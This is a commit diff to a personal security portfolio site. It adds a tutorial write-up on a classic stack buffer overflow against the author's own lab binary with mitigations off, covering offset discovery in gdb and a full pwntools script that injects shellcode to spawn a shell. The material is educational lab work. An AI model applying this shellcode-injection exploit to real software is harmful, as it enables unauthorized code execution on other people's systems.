

add writeup on buffer overflows

diff --git a/src/endpoints/currentWriteup.jsx b/src/endpoints/currentWriteup.jsx
@@ -37,6 +37,15 @@ export default function CurrentWriteUp(props) {
             });
 
             break;
+        case "portfolio/writeups/classic-buffer-overflow":
+            mdFilesList.map((x) => {
+                if (x.name === "Binary Exploitation Pt 2") {
+                    mdPath = x.path;
+                    mdName = x.to_link;
+                }
+            });
+
+            break;
     }
 
     // Get of requested markdown file:

diff --git a/src/assets/style.css b/src/assets/style.css
@@ -436,6 +436,7 @@ p {
 #writeup-previews .preview-card {
   justify-content: space-between;
   width: clamp(350px, 28vw, 28vw);
+  height: 180px;
   background-color: var(--loki-dark-teal);
   border-radius: var(--rounded-edges);
   margin: 10px;
@@ -459,6 +460,7 @@ p {
 
 #writeup-previews .wu-preview-img {
   width: clamp(150px, 12vw, 12vw);
+  max-height: 150px;
   padding: 10px;
   border-radius: var(--rounded-edges);
 }

diff --git a/src/index.jsx b/src/index.jsx
@@ -39,6 +39,7 @@ function App() {
                     <CurrentWriteUp path="portfolio/writeups/academy" />
                     <CurrentWriteUp path="portfolio/writeups/HTB-vaccine" />
                     <CurrentWriteUp path="portfolio/writeups/binary-exploitation" />
+                    <CurrentWriteUp path="portfolio/writeups/classic-buffer-overflow" />
                 </Router>
             </div>
         </>

diff --git a/public/markdown-src/classic-buffer-overflow.md b/public/markdown-src/classic-buffer-overflow.md
@@ -1,0 +1,303 @@
+This is part II of my notes while working through [TsarSec's Course](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses) on [binary-exploitation](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/TTPs/exploitation/binary-exploitation/buffer-overflow.md). You can find part I [here](https://trshpuppy.github.io/portfolio/writeups/binary-exploitation).
+
+# B&E Pt. 2 Overflowing the Buffer
+
+Now that we have an idea of how the stack is manipulated during a program's runtime, we want to hijack the control flow in order to exploit the program.
+
+With all of the mitigations turned off (flags we can give to `gcc` during compilation) _the stack is readable, writable, and executable (`rwx`)._ We can check this by using the `info proc mappings` command in `gdb`.
+
+```bash
+(gdb) info proc mappings
+...                                                       # ----+
+      0x7ffffffde000     0x7ffffffff000    0x21000        0x0  rwxp   [stack]
+```
+
+This means that data we write to the stack can be executed by the CPU. So how do we know where to put our exploit so the CPU will execute it?
+
+## Finding the `%rip` offset
+
+Our target will be the saved `rip` frame on the stack (from the Function Prologue). Here's our stack from part I for reference:
+<br>
+![](/md-images/buffer-overflow-11.png)
+<br>
+The saved RIP frame holds the address _where the CPU will resume execution_ after the `overflow()` function returns and is popped off the stack. Whatever address the saved RIP is inhabiting is where we want to put our malicious code. So we need to figure out the offset (in bytes) from our entrance point (`name`) and the saved RIP (at `0x7fffffffddd0`).
+
+Remember from our overflow c script:
+
+```c
+void overflow() {
+    char option[0x2];
+    char name[0x100];
+    int MAGIC = 0xe4ff;
+```
+
+`option` is 0x2 bytes, and `name` is 0x100 bytes. We don't care about the length of `MAGIC` because when we overflow `name` _our data will be written to the stack from lower addresses to higher_ (i.e. it will be written in the direction of the saved RIP frame):
+<br>
+<br>
+![](/md-images/Pasted%20image%2020231121132658.png)
+<br>
+<br>
+Theoretically, if we know the address and length of `name` as well as the address and length of `option` we could build our buffer with the exact right length. However, because of stack alignment, these variables might be bigger than 0x100 bytes.
+
+### Building the Buffer
+
+So, we know that `name` is _at least 0x100 bytes_, so our payload will have to be at least that long to overflow the borders of `name`. To visualize our payload (the string we're going to give `name`), here's a diagram:
+<br>
+<br>
+![](/md-images/Pasted%20image%2020231121133242.png)
+<br>
+<br>
+So just the letter `A` 0x100 times, should be enough to overflow `name`.
+
+In `gdb` we want to be able to see our overflow. If the string is just a bunch of `A`s it will be difficult to tell at what byte length we were able to overflow the saved RIP. So, we'll add another character to the end of our string, `B`. Now our buffer string will look something like this:
+
+```bash
+name = 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...(* 0x100)...BBBBBBBBB(* 64)'
+```
+
+We can generate this payload using python:
+
+```python
+┌──(hakcypuppy㉿kali)-[~/tsar]
+└─$ python3
+Python 3.11.5 (main, Aug 29 2023, 15:31:31) [GCC 13.2.0] on linux
+Type "help", "copyright", "credits" or "license" for more information.
+>>> b"A"*0x100 + b"B"*64
+b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB'
+>>>
+```
+
+### Testing the Buffer
+
+Let's try this buffer as an input in our vulnerable program w/ `gdb`:
+
+```bash
+┌──(hakcypuppy㉿kali)-[~/tsar]
+└─$ gdb ./vuln_1
+GNU gdb (Debian 13.2-1) 13.2
+Copyright (C) 2023 Free Software Foundation, Inc.
+License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
+This is free software: you are free to change and redistribute it.
+There is NO WARRANTY, to the extent permitted by law.
+Type "show copying" and "show warranty" for details.
+This GDB was configured as "x86_64-linux-gnu".
+Type "show configuration" for configuration details.
+For bug reporting instructions, please see:
+<https://www.gnu.org/software/gdb/bugs/>.
+Find the GDB manual and other documentation resources online at:
+    <http://www.gnu.org/software/gdb/documentation/>.
+
+For help, type "help".
+Type "apropos word" to search for commands related to "word"...
+Reading symbols from ./vuln_1...
+(No debugging symbols found in ./vuln_1)
+(gdb) run
+Starting program: /home/hakcypuppy/tsar/vuln_1
+[Thread debugging using libthread_db enabled]
+Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
+Hey, whats your name!?
+
+AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
+Welcome
+AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
+
+is this name correct? (y/n)?
+y
+
+Program received signal SIGSEGV, Segmentation fault.
+0x00000000004011f8 in overflow ()
+(gdb)
+```
+
+When we confirm the input with `y` it crashes the vulnerable program and `gdb` reports receiving a `SIGSEV` [signal](https://github.com/TrshPuppy/obsidian-notes/blob/main/computers/linux/linux-processes.md).
+
+### Examining the Stack
+
+Let's look at the stack starting with our target `%rsp` (the saved RIP). We're looking for a bunch of `41`s and/or `42`s (the char codes for `A` and `B`):
+
+```bash
+(gdb) x/32gx $rsp # (the saved rip)
+0x7fffffffddd8: 0x4242424242424242      0x4242424242424242
+0x7fffffffdde8: 0x4242424242424242      0x4242424242424242
+0x7fffffffddf8: 0x4242424242424242      0x000000010000000a
+0x7fffffffde08: 0x00007fffffffdef8      0x00007fffffffdef8
+0x7fffffffde18: 0x371cbd3ecbb9f447      0x0000000000000000
+...
+```
+
+We're using `x/32gx $rsp` which means 'examine 32 giant words starting at the address in the `rsp` register'. The top 3 addresses are filled or partially filled with `0x4242424242424242` which denotes our `B` characters in our buffer!
+
+At the moment the program crashed, our stack pointer was pointing to `0x7fffffffddd8`. We can check the instruction we crashed on by examining the `rip` register:
+
+```bash
+(gdb) x/i $rip
+=> 0x4011f8 <overflow+178>:     ret
+(gdb)
+```
+
+It's set to the address `0x4011f8` which is the `ret` (return) instruction from `overflow()` (the last instruction).
+
+#### The `ret` instruction
+
+The job of the return instruction is to pop 8 bytes off the top of the stack (where `$rsp` is pointing), and execute the code at the address stored in there.
+
+This would normally point back to the saved instruction pointer, but we've overwritten that with our buffer. In fact, we've overwritten that + 32 bytes worth of `B`s (each `B` is one byte) past that.
+
+So, to adjust our buffer we need `0x100 + (64 - 32 - 8)` bytes worth of filler to reach the `saved rip` where we'll put our exploit (280 bytes).
+
+### Verifying our Buffer
+
+To verify we have the correct buffer, let's crash the program again, but this time using a buffer of 280 `A`s + 8 `B`s:
+
+```python
+┌──(hakcypuppy㉿kali)-[~/tsar]
+└─$ python
+Python 3.11.5 (main, Aug 29 2023, 15:31:31) [GCC 13.2.0] on linux
+Type "help", "copyright", "credits" or "license" for more information.
+>>> b'A'*280 + b'B'*8
+b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB'
+>>>
+```
+
+```bash
+┌──(hakcypuppy㉿kali)-[~/tsar]
+└─$ gdb ./vuln_1
+run
+Starting program: /home/hakcypuppy/tsar/vuln_1
+[Thread debugging using libthread_db enabled]
+Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
+Hey, whats your name!?
+
+AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
+Welcome
+AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
+
+is this name correct? (y/n)?
+y
+
+Program received signal SIGSEGV, Segmentation fault.
+0x00000000004011f8 in overflow ()
+(gdb) x/32xg $rsp
+0x7fffffffddd8: 0x4242424242424242      0x000000000000000a
+0x7fffffffdde8: 0x00007ffff7df16ca      0x0000000000000000
+0x7fffffffddf8: 0x00000000004011f9      0x0000000100000000
+0x7fffffffde08: 0x00007fffffffdef8      0x00007fffffffdef8
+...
+```
+
+From this output we can tell our 8 `B`s land directly in the first byte of the `rsp` or saved RIP. So now we're sure there are 280 bytes between our `name` parameter in `overflow()` and the saved RIP.
+
+## Building our Exploit
+
+Now that we know the exact byte offset between our `name` parameter and the saved RIP, we can craft our exploit. Right now, our string looks something like this:
+<br>
+<br>
+![](/md-images/Pasted%20image%2020231121160423.png)
+<br>
+<br>
+The 8 `B`s at the end overwrite the first byte of the saved RIP. So, let's replace the `B`s with an address we're in control of so we can tell the CPU to jump to that address and execute our malicious code.
+
+### Exploit Code
+
+For simplicity, we can put our shell code at the beginning of our buffer string. The beginning address of our code will be the address we put into the position which is being placeheld by the 8 `B`s right now.
+
+When we're done our buffer will look something like this:
+<br>
+<br>
+![](/md-images/Pasted%20image%2020231121161123.png)
+<br>
+<br>
+Instead of doing the math and crafting this string ourselves, we can take advantage of [python](https://github.com/TrshPuppy/obsidian-notes/blob/main/coding/languages/python.md) and [pwntools](https://docs.pwntools.com/en/stable/). If you need help finding and installing these tools, go check out [TsarSec's Course](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses/) (it's free and awesome!)
+
+#### Finding the address
+
+To find the address of where our shellcode will land, we can use the `x` command in `gdb` and just ask to examine 280 - 16 bytes from the `$rsp` (we want to see 16 bytes past just to make sure the address is where we think it is):
+
+```bash
+(gdb) x/32xg $rsp-280-16
+0x7fffffffdcb0: 0x0000000000403148      0x00000000004011dc
+0x7fffffffdcc0: 0x4141414141414141      0x4141414141414141 # <---
+0x7fffffffdcd0: 0x4141414141414141      0x4141414141414141
+0x7fffffffdce0: 0x4141414141414141      0x4141414141414141
+0x7fffffffdcf0: 0x4141414141414141      0x4141414141414141
+0x7fffffffdd00: 0x4141414141414141      0x4141414141414141
+0x7fffffffdd10: 0x4141414141414141      0x4141414141414141
+0x7fffffffdd20: 0x4141414141414141      0x4141414141414141
+...
+```
+
+From this we can see that our buffer _started at `0x7fffffffdcc0`_, so that's our target address for the shell code.
+
+### Python & Pwntools
+
+This is our exploit script:
+
+```python
+#!/usr/bin/env python3
+from pwn import *
+
+# we overflow saved rip after 280 or 0x118 bytes
+overflow_offset_rip = 0x118
+
+# we point saved rip to the address of the start of our buffer
+new_rip = 0x7fffffffdcc0
+
+# construct shellcode
+# let pwntools know we're dealing with a 64-bit target
+context.update(arch="amd64")
+
+# assemble shellcode
+shellcode = asm(shellcraft.amd64.linux.sh())
+
+# construct payload
+payload = shellcode                                      # shellcode
+payload += b"A" * (overflow_offset_rip - len(shellcode)) # fill up buffer to 280 bytes
+payload += p64(new_rip)                                  # pack little endian
+
+# connect to the vulnerable program
+p = process("./vuln_1")
+
+# send payload
+p.sendafter(b"Hey, whats your name!?\n", payload)
+p.sendafter(b"is this name correct? (y/n)?\n", b"y\n")
+
+p.interactive()
+```
+
+All we have to do is set our offset in `overflow_offset_rip` to 280 (0x118), and set `new_rip` to the start of our buffer (the address of our shellcode). What we're going to send to the vulnerable program looks essentially like this:
+<br>
+<br>
+![](/md-images/Pasted%20image%2020231121173335.png)
+<br>
+<br>
+When `overflow()` returns, and the CPU reads the address of the saved `rip` it will read the address we put at the end of our buffer. The CPU will then go to that address on the stack and execute our shell code!
+
+## Exploit it Yo!
+
+All you have to do now is `chmod +x` your exploit script and then run it. It will start the vulnerable process and send the exploit:
+
+```bash
+┌──(hakcypuppy㉿kali)-[~/tsar]
+└─$ ./exploit.py
+[+] Starting local process './vuln_1': pid 1284173
+[*] Switching to interactive mode
+[*] Got EOF while reading in interactive
+$ whoami
+hakcypuppy
+$
+```
+
+_Easy!_
+
+In the next part we'll talk about NOP Sleds for when we want our exploit to work more reliably on target machines (not our own).
+
+> Resources
+>
+> -   [Wikipedia: Buffer Overflows](https://en.wikipedia.org/wiki/Stack_buffer_overflow)
+> -   [TsarSec: Oral History of Binary Exploitation](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses)
+> -   [Scott Wolchok: How to Read Assembly](https://wolchok.org/posts/how-to-read-assembly-language/)
+> -   [Python Pwntools](https://docs.pwntools.com/en/stable/)
+
+> My previous notes (linked in text):
+>
+> -   You'll find them all [here](https://github.com/TrshPuppy/obsidian-notes)

diff --git a/public/markdown-src/binary-exploitation.md b/public/markdown-src/binary-exploitation.md
@@ -147,6 +147,9 @@ In the disassembled code for `overflow()`, `memset()` is the first subroutine be
 
 ### Stack Things to Remember:
 
+> [Note]
+> These guidelines apply to stack memory in x86 architectures
+
 1. The stack spans a number of memory addresses in the [RAM](computers/memory/RAM.md).
 2. The stack _grows downward_, i.e. frames are added _starting at the highest memory address, towards lower addresses_.
 3. The "top of the stack" refers to the _lowest address in the stack_.
@@ -163,9 +166,11 @@ Knowing these guidelines, let's work through the stack manipulation which happen
 <br>
 This is the assembly code for `main()`. We can see that the first call instruction is for `overflow()`, but some things are happening before that which relate to the stack.
 
-#### `push %rbp; mov %rsp,%rbp` Sequence:
+#### Function Prologue:
 
-This is a common sequence seen before function calls in assembly. In this sequence, the frame pointer stored in the `%rbp` register is _pushed to the stack_, then the stack pointer (saved in `%rsp` register) is copied into the `%rbp` register.
+The first 2 lines in our assembly code for `main()` is the _Function Prologue_. This is a common sequence in assembly seen before functions are called.
+
+In this sequence, the frame pointer stored in the `%rbp` register is _pushed to the stack_, then the stack pointer (saved in `%rsp` register) is copied into the `%rbp` register.
 
 This sequence is important for flow control because when an _activation frame_ (a frame which represents a function in the code) is pushed onto the stack or popped off, there is no way to control for the size of the frame. In other words functions in code have varying frame sizes.
 
@@ -218,9 +223,9 @@ Dump of assembler code for function overflow:
 ...
 ```
 
-The first two instructions look super familiar. That's because the same sequence that we saw earlier w/ the frame and stack pointers is happening again... don't ask me why.
+The first three instructions look super familiar. That's because the same sequence that we saw earlier w/ the frame and stack pointers is happening again; the _Function Prologue_. The last step of the function prologue (`sub $0x110,%rsp`) is _making room for the variables in the function being called_ by _subtracting_ from the stack pointer.
 
-Next is the `sub $0x110,%rsp`. The `sub` command stands for `subtract`, so this command is _subtracting `0x110` from the stack pointer_. Since this is in hex, `0x110` is 272 (256 + 16), and we're subtracting 272 from the value currently held in the `%rsp` register.
+The `sub` command stands for `subtract`, so this command is _subtracting `0x110` from the stack pointer_. Since this is in hex, `0x110` is 272 (256 + 16), and we're subtracting 272 from the value currently held in the `%rsp` register.
 
 _Since the stack grows downward, subtracting from the stack pointer will move it down towards the top of the stack._ So the new address should be `7FFF FFFF DCC0` for stack pointer. We can now update our picture:
 
@@ -233,8 +238,10 @@ After this, a few more instructions are executed. For now, suffice it to say tha
 <br>
 And our stack now looks like this:
 <br>
-![](/md-images/buffer-overflow-13.png)
+![](/md-images/buffer-overflow-11.png)
 <br>
+Read part II [here](https://trshpuppy.github.io/portfolio/writeups/classic-buffer-overflow) to see how we use the `name` parameter to overflow the frame and inject our own shell code!
+
 > Resources:
 >
 > -   [Wikipedia: Buffer Overflows](https://en.wikipedia.org/wiki/Stack_buffer_overflow)
